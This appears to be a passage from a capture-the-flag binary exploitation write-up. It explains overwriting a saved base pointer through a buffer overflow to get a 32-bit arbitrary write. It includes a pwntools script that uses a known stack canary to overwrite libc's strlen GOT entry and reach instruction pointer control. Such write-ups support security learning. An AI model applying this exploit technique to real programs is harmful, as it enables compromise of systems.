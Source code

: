 And as mentioned earlier, in the manual jump function the `Year` (which is the arg1) is set to the year entered (which is an `int32_t`) we control.

By setting the basepointer to be our target address PLUS 0x34, when manual jump is called `arg1` will be the target address and whatever we enter as the year gets written to that address, however the write is only a 32bit write so we can only control the lower half of the GOT entry. This shouldn't affect our solution though because the high half of the pointer is already mapped in libc.

So in the end, for the arb write to work, we have to first call `manual_jump` and abuse the buffer overflow to overwrite `rbp` to `target address+0x34` then call `manual_jump` again this time setting the year to what we want to write to the target address.

The following code writes `0x41414141` to `libc GOT strlen`. Because the means of input is a scanf and I am sending with a newline i chop off the most significant null byte so that the newline character does not corrupted the return address.

```python
gdb.attach(io)
strlen_got = libc.address+0x219098
print("target:",hex(strlen_got))
# set rbp to target
io.sendlineafter(b">> ",b"4")
io.sendlineafter(b": ",b"0")
io.sendlineafter(b": ",b"0")
p = b"A"*0x28
p += p64(canary)
p += p64(strlen_got+0x34)[:-1] #overwrite rbp sp that rbp-0x34 is target of write
io.sendlineafter(b": ",p)
  
value = 0x41414141
# set value to write to target
io.sendlineafter(b">> ",b"4")
io.sendlineafter(b": ",str(value).encode())
io.sendlineafter(b": ",b"0")
io.sendlineafter(b": ",b"hi")
  
io.interactive()
```

The result of this shows that not only did we overwrite the `strlen` GOT entry but also `strlen`  gets called later one and we have instruction pointer control.

